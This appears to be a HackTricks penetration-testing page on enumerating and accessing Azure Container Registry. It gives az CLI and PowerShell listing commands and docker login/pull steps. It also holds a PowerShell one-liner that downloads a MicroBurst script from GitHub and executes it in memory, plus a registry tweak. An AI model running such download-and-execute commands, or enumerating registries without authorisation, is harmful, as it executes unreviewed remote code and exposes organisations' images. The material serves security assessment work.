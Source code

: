 # Az - ACR

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

Azure Container Registry (ACR) is a managed service provided by Microsoft Azure for **storing and managing Docker container images and other artifacts**. It offers features such as integrated developer tools, geo-replication, security measures like role-based access control and image scanning, automated builds, webhooks and triggers, and network isolation. It works with popular tools like Docker CLI and Kubernetes, and integrates well with other Azure services.

### Enumerate

To enumerate the service you could use the script [**Get-AzACR.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/Misc/Get-AzACR.ps1):

```bash
# List Docker images inside the registry
IEX (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/NetSPI/MicroBurst/master/Misc/Get-AzACR.ps1")

Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Internet Explorer\Main" -Name "DisableFirstRunCustomize" -Value 2

Get-AzACR -username <username> -password <password> -registry <corp-name>.azurecr.io
```

{{#tabs }}
{{#tab name="az cli" }}

```bash
az acr list --output table
az acr show --name MyRegistry --resource-group MyResourceGroup
```

{{#endtab }}

{{#tab name="Az Powershell" }}

```powershell
# List all ACRs in your subscription
Get-AzContainerRegistry

# Get a specific ACR
Get-AzContainerRegistry -ResourceGroupName "MyResourceGroup" -Name "MyRegistry"
```

{{#endtab }}
{{#endtabs }}

Login & Pull from the registry

```bash
docker login <corp-name>.azurecr.io --username <username> --password <password>
docker pull <corp-name>.azurecr.io/<image>:<tag>
```

{{#include ../../../banners/hacktricks-training.md}}




